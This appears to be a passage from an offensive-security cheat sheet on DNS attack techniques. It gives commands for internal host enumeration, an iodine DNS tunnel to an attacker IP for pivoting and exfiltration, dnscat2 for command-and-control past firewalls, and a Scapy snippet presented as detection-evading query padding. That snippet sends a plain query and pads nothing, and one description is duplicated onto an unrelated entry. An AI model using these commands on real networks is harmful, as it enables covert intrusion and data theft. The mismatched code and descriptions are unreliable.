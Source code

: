 #### Internal Host Discovery

*   **Tool:** \[\[Nmap]]

    ```bash
    nmap <internal_subnet> -sL -n
    ```
* **Description:** Use DNS to enumerate internal hosts, often by querying for common hostnames or leveraging PTR records.

\


*   **Tool:** \[\[DNSRecon]]

    ```bash
    dnsrecon -d example.com -t std
    ```
* **Description:** Use DNS to enumerate internal hosts, often by querying for common hostnames or leveraging PTR records.

### Lateral Movement, Pivoting, and Tunnelling

#### DNS Tunneling for Pivoting

*   **Tool:** \[\[Iodine]]

    ```bash
    iodine -f mydns.example.com <attack_ip>
    ```
* **Description:** Use DNS tunneling to maintain a covert channel across network boundaries, facilitating lateral movement and data exfiltration.

### Defense Evasion

#### DNS Query Padding

*   **Tool:** \[\[Custom Scripts]], \[\[Scapy]]

    ```python
    from scapy.all import *
    pkt = IP(dst="<target_ip>")/UDP(dport=53)/DNS(qd=DNSQR(qname="example.com"))
    send(pkt)
    ```
* **Description:** Pad DNS queries to obfuscate the nature of the query and evade detection by signature-based defenses.

#### Using DNS to Bypass Firewalls

*   **Tool:** \[\[DNSCat2]]

    ```bash
    dnscat2 --dns example.com
    ```
* **Description:** Utilizing DNS to exfiltrate data or communicate with command and control servers, bypassing firewall rules that block direct IP-based communication.
